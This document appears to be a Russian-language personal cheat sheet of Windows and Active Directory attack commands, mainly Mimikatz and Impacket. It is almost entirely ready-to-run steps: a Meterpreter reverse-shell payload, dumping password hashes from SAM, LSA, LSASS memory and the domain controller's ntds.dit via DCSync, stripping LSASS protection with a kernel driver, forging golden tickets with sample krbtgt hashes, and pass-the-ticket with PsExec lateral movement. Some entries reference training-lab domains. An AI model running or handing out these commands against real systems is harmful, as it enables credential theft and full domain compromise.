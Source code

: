 # mimi

МИМИКАТЗ в метасплойт

use windows/x64/meterpreter_reverse_tcp

load kiwi
kiwi_cmd lsadump::sam

https://github.com/gentilkiwi/mimikatz/releases 

Как извлечь хеш пароля пользователя NTLM из файлов реестра


Если есть готвый стянуты файл sam  и system

.\mimikatz.exe

lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

Если из памяти...
После запуска Mimikatz можно использовать следующие команды для вытягивания паролей из памяти Windows:

- `privilege::debug` - открывает привилегии отладки для текущего процесса.
- `token::elevate` - повышение привелегий
- `sekurlsa::logonPasswords` - выводит введенные пользователем логины и хэши паролей.
- `lsadump::sam` - вытягивает пароли из базы данных SAM.
- `lsadump::lsa` - вытягивает хэши паролей из дискового хранилища LSA.
- `lsadump::lsa` /patch Сбросьте эти хэши!!
- `token::elevate` - поднимает привилегии на максимальный уровень.
- `token::whoami` - выводит информацию о текущем пользователе.
- `lsadump::cache` - mscash2 последних 10 пользователей из систем и секьюрити
- `lsadump::dcsync` - /all /csv - дампим ntds.dit с контроллера
- `lsadump::dcsync /domain:za.tryhackme.loc /user:lorraine.gill` - дампим определенного пользака
Подробнее: https://www.securitylab.ru/analytics/517178.php

- `lsadump::secrets`  - ntlm аккаунта машины

    --- Если Защищенный LSASS!!!!!!!!!!

  - `!+`     -- загружаем mimidrv.sys   
  - `!processprotect /process:lsass.exe /remove`   --- и тогда LSAS открыт

 - `sekurlsa::credman` - для выгрузки данных из credential manager




Для получения данных из ntds.dit, аналогично команде lsadump::sam в инструменте Mimikatz, можно использовать следующие команды:

1. Загрузите ntds.dit в память с помощью команды "lsadump::synchronize". Например:
```
mimikatz # lsadump::synchronize /system:C:\Windows\system32\config\system /ntds:C:\Windows\NTDS\ntds.dit
```

2. Используйте команду "lsadump::dcsync" для извлечения данных из базы данных ntds.dit. Например:
```
mimikatz # lsadump::dcsync /user:Administrator
```
где "Administrator" - это имя пользователя, данные которого вы хотите получить.


Если LSASS в виртуальном контейнере

privilege::debug
misc::memssp

и получаем после перелогина

c:\windows\system32\mimilsa.log

# Golden ticket  - Dump SID and KRBTGT hash (on DC) от АДМИНИСТРАТОРА

PS C:\pentst> .\mimikatz.exe

mimikatz # privilege::debug

mimikatz # token::elevate (DONT NEED THIS)

mimikatz # lsadump::lsa /patch (lsadump::lsa /inject /name:krbtgt) ---нужен sid и хеш krbtgt

# Create golden ticket (write to file in this case)

# Golden ticket impacket

python lookupsid.py ignite/Administrator:Ignite@987@192.168.1.105   (Получение SID домена)

python secretsdump.py administrator:Ignite@987@192.168.1.105 -выходной файл krb -user-status (Получение хеша krbtg)

impacket-ticketer -nthash 08f5bf2e292d77d8e460d3926a0d90de -domain-sid S-1-5-21-719111203-942671344-1831409528 -domain domain.dom anyuser   (В текущей директории создан билет anyuser.ccache. Экспортируем его)

export KRB5CCNAME=anyuser.ccache

python3 psexec.py -k -no-pass [домен]/[пользователь]@[имя хоста]    (подключение с псезек)



https://xakep.ru/2020/04/15/windows-ad-persistence/


PS C:\Tools> .\mimikatz.exe
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:golden

(kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500)

# Super golden ticket
kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:corp_super_golden /endin:2147483647

# Inject ticket to memory
C:\Tools> mimikatz.exe
mimikatz # kerberos::ptt ticket.kirbi

# PsExec to DC
PsExec64.exe \\dc01 cmd.exe

# Или запуск cmd для доступа к другим машинам
mimikatz # misc::cmd
